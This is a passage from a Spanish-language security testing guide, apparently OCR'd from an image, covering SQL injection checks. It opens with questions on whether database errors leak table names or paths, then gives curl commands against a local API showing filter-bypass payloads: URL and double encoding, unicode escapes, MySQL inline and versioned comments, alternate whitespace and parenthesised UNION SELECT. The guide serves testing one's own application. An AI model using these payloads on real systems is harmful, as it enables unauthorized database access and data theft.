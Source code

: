 **¿Qué observar?**
- 🚨 ¿Se muestran mensajes de error de MySQL/PostgreSQL/etc?
- 🚨 ¿Los errores revelan nombres de BD, tablas, o rutas?
- ✅ ¿Los errores están sanitizados o bloqueados?

---

## 🔧 Técnicas de Bypass para Probar

### 3.1 Bypass con Encoding

```bash
# URL Encoding
curl "http://localhost:3000/api/users?id=1%27%20OR%201%3D1--"

# Double URL Encoding  
curl "http://localhost:3000/api/users?id=1%2527%2520OR%25201%253D1--"

# Unicode Encoding
curl -H "Content-Type: application/json" -d '{"search": "admin\u0027 OR 1=1--"}' http://localhost:3000/api/users/search
```

### 3.2 Bypass con Comentarios

```bash
# Comentarios inline para dividir palabras clave
curl "http://localhost:3000/api/users?id=1' UN/**/ION SE/**/LECT 1,2,3--"

# Comentarios MySQL específicos
curl "http://localhost:3000/api/users?id=1' /*!UNION*/ /*!SELECT*/ 1,2,3--"

# Comentarios con versión MySQL
curl "http://localhost:3000/api/users?id=1' /*!50000UNION SELECT*/ 1,2,3--"
```

### 3.3 Bypass con Espacios Alternativos

```bash
# Tabs y saltos de línea
curl "http://localhost:3000/api/users?id=1'%09UNION%0ASELECT%091,2,3--"

# Múltiples espacios
curl "http://localhost:3000/api/users?id=1'%20%20%20UNION%20%20%20SELECT%20%20%201,2,3--"

# Sin espacios usando paréntesis
curl "http://localhost:3000/api/users?id=1'UNION(SELECT(1),2,3)--"
```

---

## 📝 Testing Organizado con Checklist
